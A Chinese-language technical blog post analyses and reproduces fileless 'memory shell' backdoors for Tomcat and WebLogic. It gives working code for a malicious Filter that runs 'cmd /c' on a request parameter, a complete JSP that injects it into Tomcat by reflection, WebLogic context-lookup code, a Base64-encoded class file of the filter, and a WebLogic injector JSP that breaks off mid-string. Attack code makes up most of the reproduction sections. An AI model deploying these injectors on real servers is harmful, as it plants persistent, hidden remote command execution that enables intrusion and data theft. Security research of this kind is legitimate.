

# Weblogic内存马分析

## 背景知识

Listener、Filter、Servlet为Java web的三个基础组件，这里简单介绍一下他们的背景

### **Servlet** 

Servlet 是运行在 Web 服务器或应用服务器上的程序，它是作为来自 HTTP 客户端的请求和 HTTP 服务器上的数据库或应用程序之间的中间层。它负责处理用户的请求，并根据请求生成相应的返回信息提供给用户。下面代码是最简单的Servlet，访问/hello的url，服务器将打印hello

```java
package Servlets;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import java.io.IOException;

@WebServlet("/hello")
public class ServletDemo implements  Servlet{

    public void init(ServletConfig servletConfig) throws ServletException {

    }
    public ServletConfig getServletConfig() {
        return null;
    }

    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        System.out.println("hello");

    }
    public String getServletInfo() {
        return null;
    }

    public void destroy() {

    }
}
```


### **Filter**

filter也称之为过滤器，是对Servlet技术的一个强补充，其主要功能是在HttpServletRequest到达 Servlet 之前，拦截客户的HttpServletRequest ，根据需要检查HttpServletRequest，也可以修改HttpServletRequest 头和数据；在HttpServletResponse到达客户端之前，拦截HttpServletResponse ，根据需要检查HttpServletResponse，也可以修改HttpServletResponse头和数据。下面是一个最简单的Filter的例子，在访问/hello资源的时候，过滤器会先拦截请求，可以对请求做出修改，然后再放行，再对拦截响应，可以对响应做出修改，然后再放行。

```java
package Filters;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter("/hello")
public class FilterDemo implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("Filter 创建");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("执行过滤过程");
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
        System.out.println("销毁！");
    }
}
```


### **Listener**

JavaWeb开发中的监听器（Listener）是Application、Session和Request三大对象创建、销毁或者往其中添加、修改、删除属性时自动执行代码的功能组件。可以使用监听器监听客户端的请求、服务端的操作等。通过监听器，可以自动出发一些动作，比如监听在线的用户数量，统计网站访问量、网站访问监控等。因为后续的木马不基于Listener，所以不再给出代码示例。

### java内存马原理

### **概念**

与一句话木马等常见木马不同，内存马不需要有实体文件（但是让内存马启动可能需要实体文件，启动之后可以将实体文件删除），内存马运行起来之后将驻留在内存中，相对来说更隐蔽，危害性更大。

### **内存马可存在的位置**

内存马一般是作为服务器的组件运行在整个服务器中，如java web中常见的组件有Servlet、Filter、Listener这三个，客户端发起的web请求会依次经过Listener、Filter、Servlet三个组件，而内存马可以作为其中一个组件运行在服务器中。只要在内存中修改已有的组件或者动态注册一个新的组件，插入恶意的shellcode，就可以将内存马注入到服务器上。

### **常见的内存马类型**

从内存马存在的形式来看，内存马可以是Listener、Filter、Servlet任意一种类型，在不同的 web服务器中，对这三个组件的具体实现方式也不同，例如在tomcat、weblogic服务器中分别有各自的实现方法， 这也导致动态注册新的组件的方式不同，从这个角度来看，内存马也可以按照服务器或应用程序不同分为tomcat内存马、weblogic内存马等。


## tomcat内存马分析及复现

### **分析**

基于Filter的内存马本质上是在对某些特定的url进行过滤的过程中，去执行恶意代码，恶意代码分为两个部分，第一个部分是Filter中本身的命令执行的java代码，第二部分是攻击者通过http请求发过来的参数（即c参数对应的部分）

```java
package com.evalshell.Filter;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.io.InputStream;
import java.util.Scanner;

@WebFilter("/hello")
public class EvilFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("evil Filter 创建");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("evil filter 执行过滤过程");
        //测试在windows环境下
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        if (request.getParameter("c") != null){
            StringBuilder command=new StringBuilder("cmd /c ");
            command.append(request.getParameter("c"));
            InputStream inputStream = Runtime.getRuntime().exec(command.toString()).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
            String output = scanner.hasNext() ? scanner.next() : "";
            servletResponse.getWriter().write(output);
            servletResponse.getWriter().flush();
            return;
        }

        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
        System.out.println("销毁！");
    }
}
```


攻击者如果能在服务器启动之后动态注册一个Filter，并且Filter的功能与以上代码相同，那么就成功注入了内存马。

要注册Filter，首先要分析Filter是如何注册的，以下是Filter的调用链



通过对weblogic的Filter注册过程的分析，要注册一个Filter类型的内存马，需要以下几个步骤

1. 首先创建一个恶意Filter
2. 利用 FilterDef 对 Filter 进行一个封装
3. 将 FilterDef 添加到 FilterDefs 和 FilterConfig
4. 创建 FilterMap ，将我们的 Filter 和 urlpattern 相对应，存放到 filterMaps中（由于 Filter 生效会有一个先后顺序，所以我们一般都是放在最前面，让恶意的 Filter 最先触发）

### **复现**

#### 遇到的问题

在IDEA中启动tomcat并运行java web服务器代码，有两种方式：

1. 通过配置本地的tomcat服务器启动
2. 通过使用tomcat-maven插件启动，通过插件相对来说更简单，一般简单的开发和测试可以通过这种方式

在实际复现的过程中，如果通过插件启动，由于插件中的tomcat版本等问题，jsp页面上会发生某些包无法导入的情况（在jsp页面中写代码时，无法导入某些包，不是在服务器上写java文件代码时包无法导入）。

这种情况只能改用本地tomcat启动，这样可以解决tomcat相关包无法导入的问题。

#### **执行恶意JSP代码**

要对服务器注入内存马，前置条件一般是服务器存在文件上传漏洞或者反序列化漏洞，在服务器存在文件上传漏洞时，可以将恶意代码写在JSP文件中，然后将JSP文件上传到服务器，再访问该JSP文件，服务器就会执行JSP中的恶意代码，综合以上的分析，最终恶意代码如下（本质上是三个步骤，通过匿名内部类注册一个Filter的对象，通过反射获取到运行时的StandardContext，并通过反射注册这个Filter对象）：

```java
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>

<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "fengxuan";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                //这里写上我们后门的主要代码
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];

                    StringBuilder CmdStr = new StringBuilder();
                    CmdStr.append("cmd /c ");
                    CmdStr.append(req.getParameter("cmd"));
                    Process WinProcess=Runtime.getRuntime().exec(CmdStr.toString());
                    int len = WinProcess.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    WinProcess.destroy();
                    return;


                }
                //放行请求，不然的话其他的过滤器可能无法使用
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());

        // 将filterDef添加到filterDefs中
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
      //拦截的路由规则，/* 表示拦截任意路由
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("注入成功");
    }
%>
```

访问该JSP页面


由于该Filter拦截所有路由，任意输入url，并附带参数cmd=dir，可以看到命令被执行


## weblogic内存马分析及复现

### **分析**

创建一个Filter，随便打一个断点，观察此时的堆栈信息


通过跟踪堆栈信息，我们可以找到，在wrapRun函数中，会判断系统中是否存在filter以及listener。如果存在，则获取FilterChain，然后依次调用Filter。原理与tomcat类似。相关代码如下

```java
weblogic.servlet.internal.WebAppServletContext.ServletInvocationAction#wrapRun 函数

if (!invocationContext.hasFilters() && !invocationContext.hasRequestListeners()) {
    this.stub.execute(this.req, this.rsp);
} else {
    FilterChainImpl fc = invocationContext.getFilterChain(this.stub, this.req, this.rsp);
    if (fc == null) {
        this.stub.execute(this.req, this.rsp);
    } else {
        fc.doFilter(this.req, this.rsp);
    }
}

```

而getFilterChain的代码在 weblogic.servlet.internal.FilterManager中。weblogic中主要使用FilterManager去管理系统中的Filter，包括动态注册一个Filter，获取FilterChain等。动态注册一个Filter的代码如下

```java
    void registerFilter(String filterName, String filterClassName, String[] urlPatterns, String[] servletNames, Map initParams, String[] dispatchers) throws DeploymentException {
        FilterWrapper fw = new FilterWrapper(filterName, filterClassName, initParams, this.context);
        if (this.loadFilter(fw)) {
            EnumSet<DispatcherType> types = FilterManager.FilterInfo.translateDispatcherType(dispatchers, this.context, filterName);
            if (urlPatterns != null) {
                this.addMappingForUrlPatterns(filterName, types, true, urlPatterns);
            }

            if (servletNames != null) {
                this.addMappingForServletNames(filterName, types, true, servletNames);
            }

            this.filters.put(filterName, fw);
        }
    }
```

技术难点主要有以下两点：

1. 怎么寻找FilterManager
2. weblogic中类加载器机制

#### **1. 寻找FilterManager**

weblogic中，context会存放FilterManager。所以，这个问题转换为如何获取context。有两种方法

**pageContext**

jsp页面中的pageContext对象中，存有context对象。可以通过反射获取。这种比较适合直接上传jsp文件获取webshell权限的情况。代码如下

```java
        Field contextF = pageContext.getClass().getDeclaredField("context");
        contextF.setAccessible(true);
        Object context = contextF.get(pageContext);
```

**线程中**

这种情况比较适合shiro，T3等反序列化漏洞，在无法上传文件，但是可以直接通过反序列化获取weblogic权限的情况。这种情况下不需要pageContext对象，在线程中查找context对象。代码如下

```
        Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
        Method m = executeThread.getDeclaredMethod("getCurrentWork");
        Object currentWork = m.invoke(Thread.currentThread());

        Field connectionHandlerF = currentWork.getClass().getDeclaredField("connectionHandler");
        connectionHandlerF.setAccessible(true);
        Object obj = connectionHandlerF.get(currentWork);

        Field requestF = obj.getClass().getDeclaredField("request");
        requestF.setAccessible(true);
        obj = requestF.get(obj);

        Field contextF = obj.getClass().getDeclaredField("context");
        contextF.setAccessible(true);
        Object context = contextF.get(obj);
```

#### 2.FilterWrapper中类加载器机制

这里只针对于加载Filter的情况去讨论。在FilterManager的registerFilter方法中，主要通过FilterWrapper类去包装Filter类。但是FilterWrapper类的构造函数中，并没有可以传递Class的参数，只可以传递ClassName，FilterManager通过ClassName去查找Class。下面我们分析一下实现过程

在FilterManager的loadFilter中，Filter将会在这里实例化。代码如下

```java
weblogic.servlet.internal.FilterManager#loadFilter
boolean loadFilter(FilterWrapper filterWrapper) {
        String filterClassName = filterWrapper.getFilterClassName();
        filter = (Filter)this.context.createInstance(filterClassName);
        filterWrapper.setFilter((String)null, (Class)null, filter, false);
        }
```

在filterWrapper.getFilterClassName中获取FilterClass的名称，然后通过context的createInstance方法去实例化。下面是createInstance的代码

```java
Object createInstance(String className) throws ClassNotFoundException, InstantiationException, IllegalAccessException {
    Class<?> clazz = this.classLoader.loadClass(className);
    return this.createInstance(clazz);
}
```

在这里通过调用classloader的loadClass方法去根据名称查找Class。我们知道weblogic自定义了一个classloader，所以我们继续深入loadCLass方法，代码如下

```java
weblogic.utils.classloaders.ChangeAwareClassLoader#loadClass(java.lang.String, boolean)
protected Class<?> loadClass(String name, boolean resolve) throws ClassNotFoundException {
    synchronized(this.getClassLoadingLock(name)) {
        Class res = (Class)this.cachedClasses.get(name);
        if (res != null) {
            return res;
        } else if (!this.childFirst) {
            return super.loadClass(name, resolve);

```

我们可以看出，ChangeAwareClassLoader会首先从cache中查找是否存在待查找的类，如果存在，则直接返回该名称对应的Class。
所以我们为了使自己待动态加载的Filter可以被FilterManager成功查找，最简单的方法是在这个缓存中动手脚，将恶意类插入到缓存中

### **复现**

#### 遇到的问题

将代码部署到weblogic有两种方式，第一种常规的方式是把java web的项目打包成war包，然后通过weblogic页面选择并部署，第二种方式可以在IDEA中集成weblogic环境，通过配置插件可以很方便的直接部署并启动，但是这样需要ultimate 版本的IDEA才能下载weblogic的插件


之前在网上查找的所有payload的执行之后，都在 Field request1 = http.getClass().getDeclaredField("request");处报错，提示没有request这个对象，一开始以为是代码方面的问题，排查之后发现是weblogic 版本的问题，最新版weblogic14的调用链与之前不同，安装了weblogic12c之后，恶意代码可以执行

#### 执行恶意JSP代码

创建恶意的Filter代码如下：

```java
package Filters;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.io.InputStream;
import java.util.Scanner;


//@WebFilter("/hello")
public class EvilFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("evil Filter 创建");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("evil filter 执行过滤过程");
        //windows环境下
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        if (request.getParameter("c") != null){
            StringBuilder command=new StringBuilder("cmd /c ");
            command.append(request.getParameter("c"));
            InputStream inputStream = Runtime.getRuntime().exec(command.toString()).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
            String output = scanner.hasNext() ? scanner.next() : "";
            servletResponse.getWriter().write(output);
            servletResponse.getWriter().flush();
            return;
        }

        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
        System.out.println("evil filter 销毁！");
    }
}

```

将Filter.java编译为Filter.class，然后通过以下代码对其进行Base64编码

```
import sun.misc.BASE64Encoder;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;

public class compress {
    public static void main(String[] args) {
        try{
            File directory = new File("");//设定为当前文件夹

            try{

                System.out.println(directory.getCanonicalPath());//获取标准的路径

                System.out.println(directory.getAbsolutePath());//获取绝对路径

            }catch(Exception e){}

            File file = new File("./EvilFilter.class");
            FileInputStream fileInputStream = new FileInputStream(file);
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            byte[] bytes = new byte[4096];
            int len;
            while ((len = fileInputStream.read(bytes))!=-1){
                byteArrayOutputStream.write(bytes,0,len);
            }
            String encode = new BASE64Encoder().encode(byteArrayOutputStream.toByteArray());
            System.out.println(encode.replaceAll("\\r|\\n",""));
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```

编码的结果为

```
yv66vgAAADIAmgoAHgBNCQBOAE8IAFAKAFEAUggAUwcAVAgAVQsABgBWBwBXCABYCgAJAFkKAAkAWgoAWwBcCgAJAF0KAFsAXgoAXwBgBwBhCgARAGIIAGMKABEAZAoAEQBlCgARAGYIAGcLAGgAaQoAagBrCgBqAGwLAG0AbggAbwcAcAcAcQcAcgEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAUTEZpbHRlcnMvRXZpbEZpbHRlcjsBAARpbml0AQAfKExqYXZheC9zZXJ2bGV0L0ZpbHRlckNvbmZpZzspVgEADGZpbHRlckNvbmZpZwEAHExqYXZheC9zZXJ2bGV0L0ZpbHRlckNvbmZpZzsBAApFeGNlcHRpb25zBwBzAQAIZG9GaWx0ZXIBAFsoTGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlO0xqYXZheC9zZXJ2bGV0L0ZpbHRlckNoYWluOylWAQAHY29tbWFuZAEAGUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsBAAtpbnB1dFN0cmVhbQEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAB3NjYW5uZXIBABNMamF2YS91dGlsL1NjYW5uZXI7AQAGb3V0cHV0AQASTGphdmEvbGFuZy9TdHJpbmc7AQAOc2VydmxldFJlcXVlc3QBAB5MamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdDsBAA9zZXJ2bGV0UmVzcG9uc2UBAB9MamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2U7AQALZmlsdGVyQ2hhaW4BABtMamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbjsBAAdyZXF1ZXN0AQAnTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQANU3RhY2tNYXBUYWJsZQcAcAcAdAcAdQcAdgcAVAcAVwcAdwcAYQcAeAcAeQEAB2Rlc3Ryb3kBAApTb3VyY2VGaWxlAQAPRXZpbEZpbHRlci5qYXZhDAAgACEHAHoMAHsAfAEAEmV2aWwgRmlsdGVyIOWIm+W7ugcAfQwAfgB/AQAeZXZpbCBmaWx0ZXIg5omn6KGM6L+H5ruk6L+H56iLAQAlamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdAEAAWMMAIAAgQEAF2phdmEvbGFuZy9TdHJpbmdCdWlsZGVyAQAHY21kIC9jIAwAIAB/DACCAIMHAIQMAIUAhgwAhwCIDACJAIoHAIsMAIwAjQEAEWphdmEvdXRpbC9TY2FubmVyDAAgAI4BAAJcYQwAjwCQDACRAJIMAJMAiAEAAAcAdQwAlACVBwCWDACXAH8MAJgAIQcAdgwALQCZAQAVZXZpbCBmaWx0ZXIg6ZSA5q+B77yBAQASRmlsdGVycy9FdmlsRmlsdGVyAQAQamF2YS9sYW5nL09iamVjdAEAFGphdmF4L3NlcnZsZXQvRmlsdGVyAQAeamF2YXgvc2VydmxldC9TZXJ2bGV0RXhjZXB0aW9uAQAcamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdAEAHWphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlAQAZamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbgEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABBqYXZhL2xhbmcvU3RyaW5nAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEADGdldFBhcmFtZXRlcgEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQAGYXBwZW5kAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAIdG9TdHJpbmcBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsBAAdoYXNOZXh0AQADKClaAQAEbmV4dAEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQATamF2YS9pby9QcmludFdyaXRlcgEABXdyaXRlAQAFZmx1c2gBAEAoTGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlOylWACEAHQAeAAEAHwAAAAQAAQAgACEAAQAiAAAALwABAAEAAAAFKrcAAbEAAAACACMAAAAGAAEAAAANACQAAAAMAAEAAAAFACUAJgAAAAEAJwAoAAIAIgAAAEEAAgACAAAACbIAAhIDtgAEsQAAAAIAIwAAAAoAAgAAABAACAARACQAAAAWAAIAAAAJACUAJgAAAAAACQApACoAAQArAAAABAABACwAAQAtAC4AAgAiAAABXgADAAkAAACGsgACEgW2AAQrwAAGOgQZBBIHuQAIAgDGAGa7AAlZEgq3AAs6BRkFGQQSB7kACAIAtgAMV7gADRkFtgAOtgAPtgAQOga7ABFZGQa3ABISE7YAFDoHGQe2ABWZAAsZB7YAFqcABRIXOggsuQAYAQAZCLYAGSy5ABgBALYAGrEtKyy5ABsDALEAAAADACMAAAA2AA0AAAAVAAgAFwAOABgAGgAZACUAGgA0ABsARAAcAFQAHQBoAB4AcwAfAHwAIAB9ACMAhQAkACQAAABcAAkAJQBYAC8AMAAFAEQAOQAxADIABgBUACkAMwA0AAcAaAAVADUANgAIAAAAhgAlACYAAAAAAIYANwA4AAEAAACGADkAOgACAAAAhgA7ADwAAwAOAHgAPQA+AAQAPwAAACgAA/8AZAAIBwBABwBBBwBCBwBDBwBEBwBFBwBGBwBHAABBBwBI+AAWACsAAAAGAAIASQAsAAEASgAhAAEAIgAAADcAAgABAAAACbIAAhIctgAEsQAAAAIAIwAAAAoAAgAAACgACAApACQAAAAMAAEAAAAJACUAJgAAAAEASwAAAAIATA==
```

创建evil.jsp，恶意代码为，主要思路是将恶意Filter对象的Base64编码结果加载到缓存cachedClasses中，这样通过filterManager就可以直接注册该恶意Filter对象

```java
<%--
  Created by IntelliJ IDEA.
  User: Jack
  Date: 6/29/2023
  Time: 1:40 PM
  To change this template use File | Settings | File Templates.
--%>
<%@ page import="sun.misc.BASE64Decoder" %>
<%@ page import="weblogic.servlet.internal.FilterManager" %>
<%@ page import="weblogic.servlet.internal.ServletRequestImpl" %>
<%@ page import="weblogic.servlet.internal.WebAppServletContext" %>
<%@ page import="javax.servlet.ServletException" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.InvocationTargetException" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Map" %>

<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%

    response.getWriter().write("test!!!");
    Thread thread = Thread.currentThread();
    try {
    Field workEntry = Class.forName("weblogic.work.ExecuteThread").getDeclaredField("workEntry");
    workEntry.setAccessible(true);
    Object workentry  = workEntry.get(thread);

    Field connectionHandler = workentry.getClass().getDeclaredField("connectionHandler");
    connectionHandler.setAccessible(true);
    Object http = connectionHandler.get(workentry);

    Field request1 = http.getClass().getDeclaredField("request");
    request1.setAccessible(true);
    ServletRequestImpl servletRequest = (ServletRequestImpl)request1.get(http);

    response.getWriter().write("Success!!!");
    Field context = servletRequest.getClass().getDeclaredField("context");
    context.setAccessible(true);
    WebAppServletContext webAppServletContext = (WebAppServletContext)context.get(servletRequest);

    String encode_class ="yv66vgAAADIAmgoAHgBNCQBOAE8IAFAKAFEAUggAUwcAVAgAVQsABgBWBwBXCABYCgAJAFkKAAkAWgoAWwBcCgAJAF0KAFsAXgoAXwBgBwBhCgARAGIIAGMKABEAZAoAEQBlCgARAGYIAGcLAGgAaQoAagBrCgBqAGwLAG0AbggAbwcAcAcAcQcAcgEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAUTEZpbHRlcnMvRXZpbEZpbHRlcjsBAARpbml0AQAfKExqYXZheC9zZXJ2bGV0L0ZpbHRlckNvbmZpZzspVgEADGZpbHRlckNvbmZpZwEAHExqYXZheC9zZXJ2bGV0L0ZpbHRlckNvbmZpZzsBAApFeGNlcHRpb25zBwBzAQAIZG9GaWx0ZXIBAFsoTGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlO0xqYXZheC9zZXJ2bGV0L0ZpbHRlckNoYWluOylWAQAHY29tbWFuZAEAGUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsBAAtpbnB1dFN0cmVhbQEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAB3NjYW5uZXIBABNMamF2YS91dGlsL1NjYW5uZXI7AQAGb3V0cHV0AQASTGphdmEvbGFuZy9TdHJpbmc7AQAOc2VydmxldFJlcXVlc3QBAB5MamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdDsBAA9zZXJ2bGV0UmVzcG9uc2UBAB9MamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2U7AQALZmlsdGVyQ2hhaW4BABtMamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbjsBAAdyZXF1ZXN0AQAnTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQANU3RhY2tNYXBUYWJsZQcAcAcAdAcAdQcAdgcAVAcAVwcAdwcAYQcAeAcAeQEAB2Rlc3Ryb3kBAApTb3VyY2VGaWxlAQAPRXZpbEZpbHRlci5qYXZhDAAgACEHAHoMAHsAfAEAEmV2aWwgRmlsdGVyIOWIm+W7ugcAfQwAfgB/AQAeZXZpbCBmaWx0ZXIg5omn6KGM6L+H5ruk6L+H56iLAQAlamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdAEAAWMMAIAAgQEAF2phdmEvbGFuZy9TdHJpbmdCdWlsZGVyAQAHY21kIC9jIAwAIAB/DACCAIMHAIQMAIUAhgwAhwCIDACJAIoHAIsMAIwAjQEAEWphdmEvdXRpbC9TY2FubmVyDAAgAI4BAAJcYQwAjwCQDACRAJIMAJMAiAEAAAcAdQwAlACVBwCWDACXAH8MAJgAIQcAdgwALQCZAQAVZXZpbCBmaWx0ZXIg6ZSA5q+B77yBAQASRmlsdGVycy9FdmlsRmlsdGVyAQAQamF2YS9sYW5nL09iamVjdAEAFGphdmF4L3NlcnZsZXQvRmlsdGVyAQAeamF2YXgvc2VydmxldC9TZXJ2bGV0RXhjZXB0aW9uAQAcamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdAEAHWphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlAQAZamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbgEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABBqYXZhL2xhbmcvU3RyaW5nAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEADGdldFBhcmFtZXRlcgEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQAGYXBwZW5kAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAIdG9TdHJpbmcBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEABGV4ZWMBACco